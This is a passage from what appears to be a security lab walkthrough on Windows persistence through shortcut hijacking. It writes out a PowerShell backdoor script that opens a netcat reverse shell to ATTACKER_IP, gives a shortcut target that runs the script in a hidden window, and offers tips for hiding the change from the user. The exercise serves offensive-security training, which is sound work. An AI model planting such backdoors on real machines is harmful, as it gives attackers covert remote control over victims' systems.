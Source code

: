 
Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![task3-calc-backdoor](./images/task3-calc-backdoor.png)

Let's start an nc listener to receive our reverse shell on our attacker's machine:


![task3-listener](./images/task3-listener.png)
     